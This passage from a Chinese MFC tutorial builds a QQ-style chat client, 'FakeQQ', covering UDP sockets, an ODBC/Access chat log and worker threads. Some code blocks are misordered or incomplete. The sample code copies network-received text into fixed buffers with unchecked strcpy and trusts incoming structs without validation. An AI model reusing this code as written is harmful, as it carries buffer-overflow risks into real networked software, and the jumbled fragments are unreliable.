```## (三)网络功能(FakeQQ v2.0)

实话实说，以上的工作纯属“表面文章”。到现在，我们的FakeQQ聊天功能还很差。要真正实现聊天功能，就必须掌握网络编程。

### 1.网络编程

网络编程说起来很复杂，其涵盖的内容也很广。本节内容很简单，只是教会你如何使用Socket (确切地说是Windows Socket) 实现简单的网络通讯，比如：我的机器如何发送一条类似于“我爱你”的讯息至你的机器 (当然，你的机器有可能是一台服务器)。

Socket (套接字) 是标准接口，与操作系统无关，也与开发语言无关，完全可以在Windows里面使用一个Java程序和另一台Unix机器上的C/C++服务程序进行Socket通讯。Visual C++提供了一套访问Windows Socket的类CAsyncSocket/CSocket；使得Socket编程非常方便，这部分内容将着重介绍 CSocket编程。

一般来说，跨机应用进程之间要在网络环境下进行通信，必须要在网络的每一端都建立一个套接字，两个套接字之间可以是建立连接的，也可以是无连接的，并通过对套接字的“读”、“写”操作实现网络通信功能。完全可以像理解文件I/O那样来理解Socket，它同样具有打开、读、写、关闭的方式。根据传输数据类型的不同，套接字可分为面向连接的字节流套接字 (Stream Socket) 和无连接的数据报套接字 (DataGram Socket) 两种类型。

通俗一点讲，面向连接的Socket就像打电话，一方先拨打另一方的电话，等到他接起电话时就开始了一个会话，任何一方挂断就意味着会话的结束。这种通讯是安全的，对方一接通，通讯就肯定开始了；无连接的Socket则像发手机短信，你只管发，发完就没事了，对方收到短信可能会给你回复，也可能不回复，这种通讯是不安全的，报文长度有限制，但方便快捷，不需要系统来维持连接，QQ的短信发送就是无连接的。在TCP/IP协议簇中字节流套接字对应TCP协议，即传输控制协议 (Transmission Control Protocol)，而数据报套接字对应UDP协议，即用户数据报协议 (User Datagram Protocol)。

通讯模式有 C/S 模式与点对点模式之别。C/S即客户端/服务器(Client/Server)模式，服务器是中心，一个或多个客户端都与服务器通讯，信息都要通过它。点对点模式中，每台主机都是平等的(有的称之为“互为客户端/服务器”模式)，不同主机之间互相通讯，不需要通过一个服务器中介，但也缺乏一个统一的信息中心。

QQ在登录、访问用户信息时大多数采用C/S，但有时候发送讯息会就近采用点对点模式；有些用户惊奇地发现自己连接不上腾讯服务器，却能和局域网中的另一位MM酣聊，这就是点对点的好处。QQ发送讯息时大多采用无连接的通讯方式，但有的时候就必须采用面向连接的方式，如传送文件、二人世界时。

FakeQQ当前版本只采用UDP无连接方式，由于没有中心服务器，FakeQQ也只能采用点对点模式。那就意味着，如果要用FakeQQ聊天，必须先知道对方的IP地址(正如发手机短信之前你必须知道对方的手机号码)。

CSocket继承于CAsyncSocket，CAsyncSocket是非阻塞的，不管发送/接收操作是否成功都会返回。而CSocket是阻塞的，除非操作超时，否则它是不肯返回的(这一点有时候反而会让程序员头疼)。好吧，我们用CSocket。

### 使用数据报套接字进行CSocket编程的步骤如下。

- ①使用CSocket::Create()建立本地Socket。
- ②使用CSocket::SendTo()发送数据。
- ③重载CSocket::OnReceive()处理接收数据。

### 几个重要函数的原型如下。

```
CSocket::Create
BOOL Create( UINT nSocketPort = 0, int nSocketType = SOCK_STREAM, LPCTSTR lpszSocketAddress = NULL );

CAsyncSocket::SendTo
int SendTo( const void* lpBuf, int nBufLen, UINT nHostPort, LPCTSTR lpszHostAddress = NULL, int nFlags = 0 );

int SendTo( const void* lpBuf, int nBufLen, const SOCKADDR* lpSockAddr, int nSockAddrLen, int nFlags = 0 );

CAsyncSocket::ReceiveFrom
int ReceiveFrom( void* lpBuf, int nBufLen, CString& rSocketAddress, UINT& rSocketPort, int nFlags = 0 );

int ReceiveFrom( void* lpBuf, int nBufLen, SOCKADDR* lpSockAddr, int* lpSockAddrLen, int nFlags = 0 );
```

其中，CSocket::Create()的参数nSocketType用以指定传输方式是字节流(SOCK_STREAM)还是数据报(SOCK_DGRAM)。

在Visual C++工程中使用CSocket，需要在创建工程的时候选定“Windows Sockets”，否则就需要程序员手动在stdafx.h中加入头文件：
#include <afxsock.h> // MFC socket extensions

### 此外，还需要在CXApp::InitInstance()的头部中添加如下代码。

```
if (!AfxSocketInit())
{
    AfxMessageBox(IDP_SOCKETS_INIT_FAILED);
    return FALSE;
}
```

这样，CSocket才能正常工作。

### 2.准备FakeQQ聊天界面

FakeQQ v2.0实现网络聊天之前，需要2个对话框——“发送讯息”和“查看讯息”对话框(界面是功能的载体)。图20为“发送讯息”对话框的设计视图。为对话框创建新类CSendMsgDlg并绑定各控件，各重要控件的ID与绑定变量列表如表3。


表3 “发送讯息”对话框中的控件

| ID | 含义 | 类型 | 绑定变量 |
|---|---|---|---|
| IDC_LOGIN_NAME | 用户昵称 | StaticText | CString m_LoginName |
| IDC_LOCAL_IP | 本地IP | StaticText | CString m_LocalIp |
| IDC_UDP_PORT | 本地聊天端口 | StaticText | UINT m_UdpPort |
| IDC_TO_NAME | 好友昵称 | StaticText | CString m_ToName |
| IDC_TO_IP | 好友IP | EditBox | CEdit m_Tolp |
| IDC_TO_PORT | 好友聊天端口 | EditBox | CEdit m_ToPort |
| IDC_CHAT_MSG | 聊天讯息 | EditBox | CString m_ChatMsg |

CSendMsgDlg构造函数接受一个CUserInfo指针变量，用以指定向哪个好友发送讯息，如果该参数为NULL，则表明好友信息需要用户手动输入，如下为CSendMsgDlg构造函数。

```
CSendMsgDlg::CSendMsgDlg(CUserInfo * pToUser, CWnd* pParent /*=NULL*/)
: CDialog(CSendMsgDlg::IDD, pParent)
{
    //...
    m_pToUser = pToUser; //指定好友
    m_LocalIp = ::MyInfo.m_Ip;
    m_LoginName = ::MyInfo.m_UserName;
    m_UdpPort.Format("%d", ::MyInfo.m_Port);
}
```

### 界面初始化的代码如下：

```
BOOL CSendMsgDlg::OnInitDialog()
{
    CDialog::OnInitDialog();
    //好友信息需要用户手动输入
    if(!m_pToUser)
    {
        m_ToName = _T("");
        m_ToPort.SetWindowText("40000");
        m_Tolp.SetWindowText(::MyInfo.m_Ip);
    }
    //好友信息从m_pToUser中获得
    else
    {
        m_ToName = m_pToUser->m_UserName;
        m_Tolp.SetWindowText(m_pToUser->m_Ip);
        CString ToPort;
        ToPort.Format("%d", m_pToUser->m_Port);
        m_ToPort.SetWindowText(ToPort);
    }
    //将地址框设置为只读
    m_ToIp.SetReadOnly();
    m_ToPort.SetReadOnly();

    UpdateData(false);
    return TRUE; // return TRUE unless you set the focus to a control
    // EXCEPTION: OCX Property Pages should return FALSE
}
```

对应地，图21为“查看讯息”对话框的设计视图。


### 图21 “查看讯息”对话框设计视图

为对话框创建新类 CReplyMsgDlg 并绑定各控件，各重要控件的ID与绑定变量列表如下。

| ID | 含义 | 类型 | 绑定变量 |
|---|---|---|---|
| IDC_USER_NAME | 好友昵称 | StaticText | CString m_UserName |
| IDC_USER_ADDRESS | 好友地址 | StaticText | CString m_UserAddress |
| IDC_MSG_TIME | 讯息发送时间 | StaticText | CString m_MsgTime |
| IDC_USER_FACE | 好友头像 | Button | CButton m_UserFace |
| IDC_CHAT_MSG | 聊天讯息 | EditBox | CString m_ChatMsg |

```
CReplyMsgDlg::CReplyMsgDlg(CMsgInfo * pMsg, CWnd* pParent /*=NULL*/)
	: CDialog(CReplyMsgDlg::IDD, pParent)
{
	m_UserName = pMsg->m_FromUser.m_UserName;
	m_UserAddress.Format("%s:%d", pMsg->m_FromUser.m_Ip, pMsg->m_FromUser.m_Port);
	m_ChatMsg = pMsg->m_ChatMsg;

	//将时间转换成字符串格式
	CTime MsgTime(pMsg->m_Time);
	m_MsgTime = MsgTime.Format("%Y-%m-%d %H:%M:%S");

	m_pMsg = pMsg;
}

BOOL CReplyMsgDlg::OnInitDialog()
{
	CDialog::OnInitDialog();
	//设置好友头像
	m_UserFace.SetIcon(::FaceIcon[m_pMsg->m_FromUser.m_Face]);
	return TRUE; // return TRUE unless you set the focus to a control
	// EXCEPTION: OCX Property Pages should return FALSE
}
```

响应“回复讯息”按钮事件，显示“发送讯息”窗口。

```
void CReplyMsgDlg::OnReplyMsg()
{
	//显示“发送讯息”窗口
	CSendMsgDlg SendDlg(&m_pMsg->m_FromUser);
	OnCancel();
	SendDlg.DoModal();
}
```

FakeQQ 此外还需要一个讯息类 CMsgInfo 用以传递讯息。

```
class CMsgInfo
{
public:
	CUserInfo m_FromUser; //发送者
	char m_ChatMsg[250]; //讯息内容
	long m_Time; //发送时间
};
```

注意：m_Time 是 long 类型，而不是 CTime，它的值为 time()函数获得，它是自 1970年1月1日至今的秒数。

### 3. FakeQQ引入网络

界面和数据结构准备完毕，以下为 FakeQQ 的网络功能的核心实现部分。
为 FakeQQ 添加一个 CSocket 派生类 CChatSocket。

```
class CChatSocket : public CSocket
{
public:
	CFakeQQDlg * m_pDlg; //Owner窗口
	//...
};
```

我们按照前面介绍的步骤开始，在用户登录之后即建立 Socket。

```
void CLoginDlg::OnOK()
{
	// CLoginDlg::OnOK()

	// 创建Socket
	if(!::ChatSocket.Create(m_UdpPort, SOCK_DGRAM))
		AfxMessageBox("无法创建Socket，请确认端口号没有冲突。");
	else
	{
		//写注册表，见前文
	}
}
```

前面内容已经介绍过，::ChatSocket 是个 CChatSocket 类型的全局变量。

接下来是实现“发送讯息”模块。

```
void CSendMsgDlg::OnSendMsg()
{
	UpdateData(true);
	
	//准备发送数据
	CMsgInfo Msg;
	Msg.m_FromUser = ::MyInfo;
	strcpy(Msg.m_ChatMsg, m_ChatMsg);
	Msg.m_Time = time(NULL);
	
	CString ToIp;
	CString ToPort;
	m_ToIp.GetWindowText(ToIp);
	m_ToPort.GetWindowText(ToPort);
	
	//发送
	if(::ChatSocket.SendTo(&Msg, sizeof(CMsgInfo), atoi(ToPort), ToIp) != SOCKET_ERROR)
		OnCancel();
	else
		MessageBox("发送讯息失败！");
}
```

接口是有了，用户什么时候发送讯息呢？我们的主界面里不是有用户列表(目前为止，用户列表的内容就只有“主叫连接”一项)吗？我们来实现用户列表的消息映射，当用户双击用户列表项显示“发送讯息”窗口。

```
ON_NOTIFY(NM_DBLCLK, IDC_USER_LIST, OnDblclkUserList)
//...
void CFakeQQDlg::OnDblclkUserList(NMHDR* pNMHDR, LRESULT* pResult)
{
	HD_NOTIFY *phdn = (HD_NOTIFY *) pNMHDR;
	if(phdn->iItem >= 0)
	{
		//获取好友信息，好友信息保存在列表项的附加数据里
		CUserInfo * pUser = (CUserInfo *)m_UserList.GetItemData(phdn->iItem);
		//显示“发送讯息”窗口
		CSendMsgDlg SendDlg(pUser);
		SendDlg.DoModal();
	}
	*pResult = 0;
}
```

这样一来，用户可以通过双击“主叫连接”来主动发送讯息了，怎么接收呢？下面我们通过重载 CSocket 的 OnReceive() 函数来实现讯息接收。

```
void CChatSocket::OnReceive(int nErrorCode)
{
	CMsgInfo * pMsg = new CMsgInfo();
	CString FromIp;
	UINT FromPort;
	//接收数据
	if(ReceiveFrom(pMsg, sizeof(CMsgInfo), FromIp, FromPort) != SOCKET_ERROR)
	{
		//播放提示声音
		PlaySound("msg.wav", NULL, SND_FILENAME | SND_ASYNC);
		
		strcpy(pMsg->m_FromUser.m_Ip, FromIp);
		pMsg->m_FromUser.m_Port = FromPort;
		m_pDlg->PushMsg(pMsg);
	}
	CSocket::OnReceive(nErrorCode);
}
```

**注意：为了支持 PlaySound() 播放提示声音(msg.wav也是笔者从QQ里面拷贝过来的)，在 stdafx.h 中引入以下头文件。**

```
#include <Mmsystem.h>      //PlaySound()

并在 Project Settings\Link 选项中添加库 Winmm.lib。
```

看来大头应该在 CFakeQQDlg 的成员函数 PushMsg() 里，在 CFakeQQDlg 里添加 2 个变量，所有的讯息放进 m_MsgQueue，所有的好友放进 m_UserInfoList。

```
CPtrArray m_MsgQueue; //讯息队列
CPtrList m_UserInfoList; //好友信息列表

PushMsg() 并不急着显示新讯息，而只是将讯息加入讯息队列，并将好友添加至好友名单中，然后再判断是否闪动图标告知用户有新消息来到。
```

```
void CFakeQQDlg::PushMsg(CMsgInfo *pMsg)
{
	m_MsgQueue.Add(pMsg);
	
	//查找该好友是否已经在好友名单
	int nItem = FindUser(&pMsg->m_FromUser);
	CUserInfo * pUser;
	
	if(nItem != -1)
	{
		pUser = (CUserInfo *)m_UserList.GetItemData(nItem);
		delete pUser;
		m_UserList.DeleteItem(nItem);
	}
	else
		nItem = 1;
	
	//在 ListCtrl 里显示头像
	nItem = m_UserList.InsertItem(nItem, pMsg->m_FromUser.m_UserName, pMsg->m_FromUser.m_Face);
	
	pUser = new CUserInfo();
	*pUser = pMsg->m_FromUser;
```

以上引用到的成员变量必须在CFakeQQDlg类里声明，并在构造函数里初始化它们的值。
HICON m_hFlashingTrayIcon; //图标
UINT m_nTrayIconFlashTimerID; //定时器ID
bool m_bTrayIconVisible; //图标是否可见
bool m_bTrayIconFlashing; //是否在闪动

以下是CFakeQQDlg::CFakeQQDlg()中的初始化代码。

```
m_nTrayIconFlashTimerID = 2;
m_bTrayIconFlashing = false;
m_bTrayIconVisible = false;
m_hFlashingTrayIcon = NULL;
```

好了，在程序中调用FlashTrayIcon ()看看，是不是找到和MM聊天的感觉了？本文不再提供程序截图，因为它是闪动的)。

养成好习惯，在CFakeQQDlg::OnDestroy()中添加下代码关闭 TrayIcon 的闪动。
FlashTrayIcon(m_hIcon, false);

```
m_bTrayIconVisible = false;
if(Flash)
{
    m_hFlashingTrayIcon = Icon;
    if(!m_bTrayIconFlashing)
    {
        //创建定时器
        m_nTrayIconFlashTimerID = SetTimer(m_nTrayIconFlashTimerID, 500, NULL);
        m_bTrayIconFlashing = true;
    }
}
else
{
    if(m_bTrayIconFlashing)
    {
        //销毁定时器，并恢复图标
        KillTimer(m_nTrayIconFlashTimerID);
        m_Nid.hIcon = Icon;
        Shell_NotifyIcon(NIM_MODIFY, &m_Nid);
        m_bTrayIconFlashing = false;
    }
}
```//将好友信息保存在列表项的附加数据里
m_UserList.SetItemData(nItem, (DWORD)pUser);

//如果是最后一条消息，则闪动TrayIcon
if(m_MsgQueue.GetSize() == 1)
    FlashTrayIcon(::FaceIcon[pMsg->m_FromUser.m_Face]);

FindUser()用以在好友列表查找当前好友并返回他的索引，失败则返回-1，实现如下。

int CFakeQQDlg::FindUser(CUserInfo *pUser)
{
    //0为主叫连接
    for(int i = 1; i < m_UserList.GetItemCount(); i++)
    {
        CUserInfo * pItem = (CUserInfo *)m_UserList.GetItemData(i);
        //通过IP地址和端口来查找好友
        if(pItem && !strcmp(pItem->m_Ip, pUser->m_Ip) && pItem->m_Port == pUser->m_Port)
            return i;
    }
    return -1;
}

那么，新讯息什么时候显示呢？当用户双击TrayIcon的时候，OnCommand()通过调用OnShowLastChat()显示下一条讯息。

void CFakeQQDlg::OnShowLastChat()
{
    CMsgInfo * pMsg = PopMsg();
    if(pMsg)
    {
        CReplyMsgDlg ReplyDlg(pMsg);
        ReplyDlg.DoModal();
        delete pMsg;
    }
}

越来越麻烦，看来还要附上PopMsg()源码，它用以从讯息队列中取出最旧的一条消息。

CMsgInfo * CFakeQQDlg::PopMsg()
{
    if(!m_MsgQueue.GetSize())
        return NULL;

    CMsgInfo * pMsg = (CMsgInfo *)m_MsgQueue.GetAt(0);
    m_MsgQueue.RemoveAt(0);

    //如果没有更多的讯息，则停止闪动TrayIcon
    if(!m_MsgQueue.GetSize())
        FlashTrayIcon(m_hIcon, false);
    //否则闪动TrayIcon提示下一条讯息
    else
    {
        CMsgInfo * pNextMsg = (CMsgInfo *)m_MsgQueue.GetAt(0);
        FlashTrayIcon(::FaceIcon[pNextMsg->m_FromUser.m_Face]);
    }
    return pMsg;
}

基本上完成了FakeQQ的网络功能，在“主叫连接”里发送一条讯息给自己，或者重新再启动一个FakeQQ(注意要重新分配一个端口发送讯息)，“嘀嘀嘀……”(声音文件msg.wav见配套光盘)，本地的FakeQQ的头像就会闪动起来了，紧接着——你该知道怎么去查看消息了吧。

有一个地方必须说明，在窗口对象销毁的时候应该做一些合理的善后工作。

CFakeQQDlg::~CFakeQQDlg()
{
    //清空好友列表，释放其中的内存
    POSITION p = m_UserInfoList.GetHeadPosition();
    while(p)
    {
        CUserInfo * pUser = (CUserInfo *)m_UserInfoList.GetNext(p);
        if(pUser)
            delete pUser;
    }
    m_UserInfoList.RemoveAll();

    //清空讯息队列，释放其中的内存
    for(int i = 0; i < m_MsgQueue.GetSize(); i++)
    {
        CMsgInfo * pMsg = (CMsgInfo *)m_MsgQueue.GetAt(i);
        if(pMsg)
            delete pMsg;
    }
    m_MsgQueue.RemoveAll();
}

## (四) 数据库(FakeQQ v2.1)

完整的系统应该包含详尽的LOG日志，QQ就保存了用户的聊天记录。为我们的FakeQQ也准备一份，开始接触数据库吧。

聊天记录属于个人隐私内容，保存在数据库里不太明智。本文仅仅为了向读者简单介绍数据库编程的基本方法，至于FakeQQ的以后命运——建议你还是使用文件吧！不要让用户的女友都气势汹汹地拿着FakeQQ聊天记录来迫害阶级弟兄。

### 1. 数据库编程

Visual C++中的数据库编程方法很多，基本上是一大堆术语的简写(总会有那么一堆人，有事没事就定义一个缩写)，常见的有DAO、ADO以及ODBC编程。

如果熟悉Access数据库，就能很好地理解DAO(Data Access Objects，数据访问对象)。MFC DAO是微软提供的用于访问Microsoft Jet数据库文件(*.mdb)的强有力的数据库开发工具，它通过DAO的封装，向程序员提供了DAO丰富的操作数据库手段。简言之，DAO提供一种通过程序代码创建和操纵数据库的机制。多个DAO构成一个体系结构，在这个结构中，各个DAO对象协同工作。

ADO(ActiveX Data Objects)则不仅仅如此，它是Microsoft为强大的数据访问范例OLE DB而设计的，是一个便于使用的应用程序层接口。OLE DB基于COM接口，对所有的文件系统包括关系数据库和非关系数据库都提供了统一的接口，ADO技术完全基于OLE DB的访问接口，所以它继承了OLE DB技术的优点，并且ADO对OLE DB的接口作了封装，定义了ADO对象，使程序的开发过程更加简化，ADO技术属于数据库访问的高层接口。

Windows控制面板里有个ODBC配置工具，相信大家不是很陌生，不管是什么数据库，Oracle的还是Paradox的，都可以通过ODBC来实现统一访问与管理。ODBC(Open DataBase Connectivity)已经成为一种标准，目前所有的关系数据库都提供了ODBC驱动程序，这使ODBC的应用非常广泛，基本上可用于所有的关系数据库。在Visual C++中提供了MFC ODBC类，封装了ODBC API，这使得利用MFC来创建ODBC的应用程序非常简便。

FakeQQ采用Microsoft Access数据库，而DAO恰恰是为mdb数据库度身定做的，照理说，使用DAO可以更好、更快地完成数据库的操作。但是由于目前的MFC DAO好像只支持到Access 97版本，对于Access 2000则需要其他的DLL库支持。因此，FakeQQ采用了ODBC连接方式。

MFC ODBC与DAO的使用方法很相似，主要的MFC ODBC类有如下几种。

CDatabase类: 一个CDatabase对象表示一个到数据源的连接，通过它可以操作数据源。

CRecordset类: 一个CRecordset对象代表一个从数据源选择的一组记录的集合——记录集(Recordset)。

CDBException类: 由CException类派生，用以描述ODBC异常错误。

MFC数据库类成员函数都能抛出CDBException类型的异常，所以在代码对数据库进行操作后监测异常通常是正确的做法。

一般来说，使用ODBC访问数据库的步骤如下。

- ① 准备CDatabase对象，连接数据库。
- ② 直接使用CDatabase:: ExecuteSQL ()执行数据库操作。
- ③ 或者准备一个与CDatabase对象关联的CRecordset(在Visual C++开发环境里，可以自动绑定数据库里面的某个表，并生成CXRecordset类)进行操作。
- ④ 捕获CDBException。
- ⑤ 关闭CXRecordset和CDatabase对象。

### 2. 准备记录查看界面

还是需要先准备界面，图22为FakeQQ v2.1的历史纪录查看界面。


图22 FakeQQ的记录查看界面

为对话框创建新类CViewLogDlg并绑定各控件，各重要控件的ID与绑定变量列表如下。

| ID | 含义 | 类型 | 绑定变量 |
| :--- | :--- | :--- | :--- |
| IDC_LOG_LIST | 历史记录列表 | ListCtrl | CListCtrl m_LogList |
| IDC_USER_NAME | 用户昵称 | StaticText | CString m_UserName |
| IDC_USER_ADDRESS | 用户地址 | StaticText | CString m_UserAddress |
| IDC_MSG_TIME | 讯息发送时间 | StaticText | CString m_MsgTime |
| IDC_USER_FACE | 用户头像 | Button | CButton m_UserFace |
| IDC_CHAT_MSG | 聊天讯息 | EditBox | CString m_ChatMsg |

### 3. FakeQQ引入数据库

准备Access数据库FakeQQ.exe.mdb(取这么长的名字是让程序很方便地找到它，否则至少要添加一个函数——代码肯定要增加很多)，建立表chat，表的设计视图如图23所示。

chat表包含的6个字段见表6。

先通过Visual C++准备一个CChatRecordSet并绑定至chat表，步骤如下。

(1) 先在Windows控制面板中配置ODBC，创建数据源。

建数据源FakeQQ，连接至FakeQQ.exe.mdb(注意在程序代码中必须要先创建这个数据源，此处创建FakeQQ数据源只是为了辅助生成CChatRecordset)。

(2) 新建一个CRecordset派生类CChatRecordset，Visual C++将出现图24所示窗口，要求选择数据库。


表6: chat表的字段

| 字段名称 | 含义 | 字段类型 | 备注 |
| :--- | :--- | :--- | :--- |
| ID | 记录 ID | 数字 | 自动增长，主键 |
| UserName | 用户昵称 | 文本 | 长度 20 |
| UserAddress | 用户地址 | 文本 | 长度 30 |
| UserFace | 用户头像 | 数字 | |
| ChatMsg | 聊天讯息 | 文本 | 长度 250 |
| MsgTime | 讯息发送时间 | 数字 | 参见CMsgInfo::m_Time |

选择 FakeQQ，并在后续的窗口中选择表 Chat，Visual C++将自动绑定表字段并生成CChatRecordSet。

class CChatRecordSet : public CRecordset
{
public:
    CChatRecordSet(CDatabase* pDatabase = NULL);
    DECLARE_DYNAMIC(CChatRecordSet)

    // Field/Param Data
    //{{AFX_FIELD(CChatRecordSet, CRecordset)
    long m_ID;
    CString m_UserName;
    CString m_UserAddress;
    long m_UserFace;
    CString m_ChatMsg;
    long m_MsgTime;
    //}}AFX_FIELD

    //...
};

(3) 前面说了，我们必须要先创建::ChatDB的数据源。

BOOL CFakeQQApp::InitInstance()
{
    //...
    if(!DBReady())
        return FALSE;
    //...
}

bool CFakeQQApp::DBReady()
{
    TCHAR FileName[_MAX_PATH];
    GetModuleFileName(NULL, FileName, _MAX_PATH);
    CString DBFileName = FileName;

    //创建数据源
    CString DSN;
    DSN = "DSN=FakeQQ,FileType=Ms Access,DBQ=" + DBFileName + ".mdb;MaxScanRows=20";
    if(!SQLConfigDataSource(NULL, ODBC_ADD_DSN, "Microsoft Access Driver (*.mdb)", DSN))
    {
        ::MessageBox(NULL,"无法创建ODBC数据源！","错误", MB_OK | MB_ICONEXCLAMATION);
        return false;
    }
    try
    {
        //连接数据源
        if(::ChatDB.Open("FakeQQ", FALSE, FALSE, "ODBC;"))
            return true;
    }
    catch(CException * e)
    {
        e->Delete();
        ::MessageBox(NULL,"无法打开系统数据库！","错误", MB_OK | MB_ICONEXCLAMATION);
        return false;
    }
    return false;
}

(4) 在stdafx.h中引入以下头文件。

#include <afxdb.h>          //CDatabase
#include <odbcinst.h>        //SQLConfigDataSource

可以在接收讯息时将讯息保存到 Chat 表了，注意观察添加数据记录的步骤。

void CFakeQQDlg::PushMsg(CMsgInfo *pMsg)
{
    //...
    if(SaveMsg(pMsg))
    {
        //...
    }
}

bool CFakeQQDlg::SaveMsg(CMsgInfo *pMsg)
{
    try
    {
        CChatRecordSet crs(&::ChatDB);
        crs.Open();
        //追加记录
        crs.AddNew();

        crs.m_UserAddress.Format("%s;%d", pMsg->m_FromUser.m_Ip, pMsg->m_FromUser.m_Port);
        crs.m_ChatMsg = pMsg->m_ChatMsg;
        crs.m_UserFace = pMsg->m_FromUser.m_Face;
        crs.m_UserName = pMsg->m_FromUser.m_UserName;
        crs.m_MsgTime = pMsg->m_Time;

        if(crs.Update())
            return true;
    }
    catch(CException *e)
    {
        e->Delete();
        return false;
    }
    return false;
}

按下 Ctrl+F5 运行程序，可以发现，讯息到来的时候，我们的FakeQQ.exe.mdb就追加了一条新记录。有写就该有读，下面我们实现历史记录的查看，响应工具栏按钮ID_VIEW_LOG。

ON_COMMAND(ID_VIEW_LOG, OnViewLog)
//...
void CFakeQQDlg::OnViewLog()
{
    CViewLogDlg LogDlg;
    LogDlg.DoModal();
}

CViewLogDlg 就是记录查看窗口了，当窗口初始化时，系统就会读取数据库，并将所有信息显示在记录列表里。

BOOL CViewLogDlg::OnInitDialog()
{
    CDialog::OnInitDialog();

    //设置记录列表框的外观
    m_LogList.InsertColumn(0, "用户名", LVCFMT_LEFT, 80);
    m_LogList.InsertColumn(1, "讯息内容", LVCFMT_LEFT, 280);

    DWORD NewStyle = m_LogList.GetExtendedStyle();
    NewStyle |= LVS_EX_FULLROWSELECT | LVS_EX_GRIDLINES;
    m_LogList.SetExtendedStyle(NewStyle);

    RefreshList();
    return TRUE; // return TRUE unless you set the focus to a control
    // EXCEPTION: OCX Property Pages should return FALSE
}

void CViewLogDlg::RefreshList()
{
    //清空列表框的内容
    m_LogList.DeleteAllItems();

    try
    {
        CChatRecordSet crs(&::ChatDB);
        crs.Open();
        int nItem = 0;
        //读取所有记录并显示在列表框里
        while(!crs.IsEOF())
        {
            nItem = m_LogList.InsertItem(nItem, crs.m_UserName, crs.m_UserFace);
            m_LogList.SetItemText(nItem, 1, crs.m_ChatMsg);
            //将记录ID设置成列表项的附加数据
            m_LogList.SetItemData(nItem, (DWORD)crs.m_ID);
            crs.MoveNext();
        }
    }
    catch(CException *e)
    {
        e->Delete();
    }
}

历史纪录可以看到了！下面添加用户对记录项的选择事件，用来显示选中的聊天记录的内容。

ON_NOTIFY(LVN_ITEMCHANGED, IDC_LOG_LIST, OnItemChangedLogList)
//...
void CViewLogDlg::OnItemChangedLogList(NMHDR* pNMHDR, LRESULT* pResult)
{
    HD_NOTIFY *phdn = (HD_NOTIFY *) pNMHDR;

    //选择到某记录项
    if(phdn->iItem >= 0)
    {
        CChatRecordSet crs(&::ChatDB);
        //以记录ID为查询条件找到记录项，记录ID保存在列表项的附加数据里
    }
}

## (五) 线程(FakeQQ v2.2)

既然工作量大了些，那就必须要接触到线程。FakeQQ现在在接收到讯息的时候，会做更多的工作，比如显示头像，闪动图标，还有保存数据等。更多的情况下，服务程序要在得到Socket数据之后进行更多更耗时的操作。如果这个时候，用户要求程序再执行其他的操作，例如马上发送一条系统广播；或者恰恰这个时候又有新的消息来临，那该怎么办呢？答案是使用线程。创建一个新线程，让它提着任务呆到一边去，任务完成了再结束自己。这样的办法很好，尽管理线程管理本身需要更多的时间，但这对主程序来说无疑是件很有意义的事情，它发配任务给新线程之后，继续忙自己的活。这样一来速度的瓶颈消失了。

不同于系统进程，线程是操作系统分时调度分配CPU时间的基本实体。一个线程可以执行程序的任意部分的代码，即使这部分代码被另一个线程并发地执行。一个进程的所有线程共享它的虚拟地址空间、全局变量和操作系统资源。

### 1. 线程编程

因为和操作系统有关，线程好像是个高深的课题，但线程编程却是很方便的事，当然，这要归功于Visual C++。

在Visual C++的世界里，线程可以分成两种，工作者线程（Worker Thread，也译作辅助线程）和用户界面线程（User Interface Thread）。工作者线程没有消息机制，正如一个只管干活不愿露面的程序员，通常用来执行后台计算和维护任务。用户界面线程则有自己的消息机制，用来处理用户的输入，响应用户产生的事件和消息。

用户界面线程的一个典型应用就是类CWinApp，大家对类CWinApp都比较熟悉，它是CWinThread类的派生类，应用程序的主线程由它提供，并由它负责处理用户产生的事件和消息。类CWinThread就是用户接口线程的基本类。

创建用户界面线程很简单；先准备一个CWinThread派生类，创建它的对象，再在合适的地方调用CWinThread::CreateThread()来创建线程；当对象过期（Delete或者超出作用域范围）时，这个新线程将会自动终止。

创建工作者线程更简单，调用函数AfxBeginThread()即可。当然，程序员要为AfxBeginThread()先准备一个控制函数，控制函数结束，新线程也就自动终止。以下是AfxBeginThread()的函数原型。

```c++
CWinThread* AfxBeginThread( AFX_THREADPROC pfnThreadProc,
LPVOID pParam, int nPriority = THREAD_PRIORITY_NORMAL,
UINT nStackSize = 0, DWORD dwCreateFlags = 0,
LPSECURITY_ATTRIBUTES lpSecurityAttrs = NULL )
```

参数pfnThreadProc指定线程执行的控制函数，函数形式必须定义如下。

```c++
UINT MyControllingFunction( LPVOID pParam );
```

其中pParam参数用以传送数据给控制函数，一般考虑将该参数定义成结构指针，以允许控制函数得到更多的数据。

一般情况下，只需要设置前两个参数即可，后面的使用缺省值即可。

### 2. FakeQQ引入线程

将FakeQQ改造成v2.2多线程版很简单，按如下步骤进行即可。

- (1) 准备线程数据类，用以传递控制函数的参数。

```c++
struct CThreadData
{
    CChatSocket * m_pSocket;
    CMsgInfo * m_pMsg;
};
```

- (2) 准备控制函数。

```c++
class CChatSocket : public CSocket
{
//...
public:
    static UINT ThreadOnReceive(LPVOID pParam);
//...
};
```

注意函数 ThreadOnReceive()的类型，ThreadOnReceive()实现代码如下。

```c++
UINT CChatSocket::ThreadOnReceive(LPVOID pParam)
{
    //将讯息压入讯息队列
    CThreadData * pData = (CThreadData *)pParam;
    pData->m_pSocket->m_pDlg->PushMsg(pData->m_pMsg);

    //释放参数内存
    delete pData;
    return 0;
}
```

ThreadOnReceive()里面其实就是原来的CChatSocket::OnReceive()其中的部分代码。

- (3) 修改CChatSocket::OnReceive()。

CChatSocket::OnReceive()现已被ThreadOnReceive()抽走核心代码，改造如下。

```c++
void CChatSocket::OnReceive(int nErrorCode)
{
//...
    //接收数据
    if(ReceiveFrom(pMsg, sizeof(CMsgInfo), FromIp,
FromPort) != SOCKET_ERROR)
    {
        //播放提示声音
        //...
        //准备线程数据
        CThreadData * pData = new CThreadData();
        pData->m_pMsg = pMsg;
        pData->m_pSocket = this;

        //创建线程
        AfxBeginThread(ThreadOnReceive, pData);
    }
    CSocket::OnReceive(nErrorCode);
}
```

省略掉的(以//...引起的)代码参见FakeQQ的旧版本v2.0。

运行程序，有兴趣的读者可以使用 Visual Studio Tools中的Process Viewer来查看FakeQQ进程中的线程，当新讯息来临的时候，FakeQQ的线程数目会增加。

### 3. 同步锁

